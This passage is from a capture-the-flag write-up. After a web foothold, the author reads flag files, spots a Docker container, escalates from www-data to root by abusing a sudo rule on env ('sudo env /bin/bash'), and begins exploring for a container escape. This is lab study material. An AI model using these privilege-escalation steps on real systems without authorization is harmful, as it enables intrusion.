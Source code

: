 Looking in **/var/www/html** shows us a file called **flag.php** which ends up being the answer to the "What is flag 1" question. We could have also used the **php filter** that was used earlier to view this before system access.

```php
<?php
$flag_1 = "<REDACTED>"
?>
```

In **/var/www** we find **flag2_QMW7JvaY2LvK.txt** which answers the "What is flag 2" question:

'wc -c flag2_QMW7JvaY2LvK.txt'

```
22 flag2_QMW7JvaY2LvK.txt
```

Nothing much else in the web directories.

In the root of the file system we see we're in a docker container:

```bash
-rwxr-xr-x   1 root root    0 Apr 30 20:41 .dockerenv
```

I look for **SUID** files and find that **env** is set with these permissions, which is strange. Looking at [**GTFOBins**](https://gtfobins.github.io/gtfobins/env/) shows us that we can break out of it.

And we also can just run it as root after looking at `sudo -l`:

```bash
Matching Defaults entries for www-data on a1c530089d96:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on a1c530089d96:
    (root) NOPASSWD: /usr/bin/env
```

`sudo env /bin/bash`

```bash
www-data@a1c530089d96:/tmp$ sudo env /bin/bash
root@a1c530089d96:/tmp# whoami
root
```

Now to figure out how to escape this container.

I first look at the **hosts** file to see what the IP address of the host system may be, and it looks like it's just localhost:

`cat /etc/hosts`

```bash
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.17.0.2      a1c530089d96
```
